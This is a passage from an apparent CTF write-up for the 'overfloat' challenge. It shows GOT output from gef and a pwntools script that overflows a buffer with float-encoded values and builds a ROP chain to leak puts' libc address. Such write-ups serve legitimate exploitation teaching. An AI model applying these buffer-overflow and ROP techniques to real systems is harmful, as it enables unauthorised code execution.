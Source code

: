Now, We need to find a leak from libc, We can do it using ```puts``` (since puts is an imported function and called from ```main```, we can call it) with the got address of puts to give us a libc infoleak.

So first, let's get the address of ```puts``` from ```got```:
```asm
gef➤  got

GOT protection: Partial RelRO | GOT functions: 11
 
[0x602018] strncmp@GLIBC_2.2.5  →  0x7ffff7b67450
[0x602020] puts@GLIBC_2.2.5  →  0x7ffff7a62aa0
[0x602028] atof@GLIBC_2.2.5  →  0x7ffff7a22790
[0x602030] setbuf@GLIBC_2.2.5  →  0x7ffff7a6a5a0
[0x602038] printf@GLIBC_2.2.5  →  0x7ffff7a46f70
[0x602040] memset@GLIBC_2.2.5  →  0x7ffff7b70e30
[0x602048] alarm@GLIBC_2.2.5  →  0x7ffff7ac6610
[0x602050] __libc_start_main@GLIBC_2.2.5  →  0x7ffff7a03b10
[0x602058] fgets@GLIBC_2.2.5  →  0x7ffff7a60c00
[0x602060] __sysv_signal@GLIBC_2.2.5  →  0x7ffff7a21b80
[0x602068] exit@GLIBC_2.2.5  →  0x400726
```

We can see ```puts``` located on ```0x602020``` on ```got```, And  located on ```0x400690``` on plt:
```asm
gef➤  disassemble main
...
0x0000000000400a14 <+129>:	call   0x400690 <puts@plt>
```

So let's get the ```puts``` leak first:
```python
from pwn import *

pf = lambda x: struct.pack('f', x)
uf = lambda x: struct.unpack('f', x)[0]

target = process('./overfloat')
libc = ELF('libc-2.27.so')

putsGot = 0x602020
putsPlt = 0x400690
main = 0x400993
popRdi = 0x400a83

def sendVal(x):
    v1 = x & ((2**32) - 1)
    v2 = x >> 32
    target.sendline(str(uf(p32(v1))))
    target.sendline(str(uf(p32(v2))))

with log.progress("Step 1: Fill the space between buffer to return address"):
    for i in range(7): # 56 / 8 = 7 iterations
        sendVal(0xdeadbeefdeadbeef)

with log.progress("Step 2: leak puts libc address"):
    sendVal(popRdi)
    sendVal(putsGot)
    sendVal(putsPlt)
    sendVal(main)

    # Send done so our code executes
    target.sendline('done')


```
